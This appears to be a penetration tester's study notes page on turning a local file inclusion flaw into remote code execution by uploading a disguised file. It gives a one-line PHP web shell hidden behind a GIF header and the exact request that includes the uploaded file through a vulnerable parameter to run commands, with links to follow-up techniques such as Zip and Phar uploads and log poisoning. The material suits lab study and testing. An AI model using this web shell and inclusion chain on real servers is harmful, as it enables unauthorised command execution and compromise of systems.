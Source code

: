 
#### If HTTP ports are blocked or `http://` is blocked: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/2. Remote File Inclusion (RFI)#FTP]]

#### If vulnerable app is on a Windows server: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/2. Remote File Inclusion (RFI)#SMB]]


## Upload Malicious Files through LFI
1. Identify an endpoint where you can upload files to the server
2. If you can find an upload file section on the server, continue with exploitation
### Exploitation
1. Create a web shell file with the allowed `MIME-Type` and extension and upload it to the web app:
```shell
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
2. Find the file path where this is uploaded (ex: right-click it -> Inspect -> find where it is retrieved in the HTML)
3. Include the uploaded file in the LFI vulnerability and the code should get executed:
```html
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
4. If execution doesn't work, go through:
	- [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/3. LFI and File Uploads#Zip Upload]] 
	- [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/3. LFI and File Uploads#Phar Upload]] 




## If everything fails, go through: [[Cybersecurity/Web App Security/Web Application Testing/4. File & SSRF Testing/3. File Inclusions/2. RCE - Remote Code Execution/4. Log Poisoning]]